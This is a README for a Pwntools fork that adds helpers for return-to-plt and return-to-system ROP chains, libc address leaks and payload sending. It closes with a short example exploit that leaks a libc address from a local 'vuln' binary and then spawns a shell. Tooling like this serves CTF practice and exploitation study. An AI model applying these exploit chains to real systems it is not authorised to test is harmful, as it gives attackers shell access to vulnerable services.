 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions [ret2plt and ret2system](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/rop/rop.py#L1551-L1561) \
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions [section_addr and find_bin_sh](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L1547-L1570), Edited [libc function](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/elf/elf.py#L716-L723) \
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 2 functions [sendpayload](https://github.com/Hellsender01/Fast-Pwn/blob/1fadadbb1982e717f0c9328367f2481f14d299f8/pwnlib/tubes/tube.py#L863-L872) and [recv_libc_leak](https://github.com/Hellsender01/Fast-Pwn/blob/caeda0f81931d33c9f56a5f0311afd8b20584c44/pwnlib/tubes/tube.py#L753-L765)

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py) \
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

# Summary 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

### Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

# Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

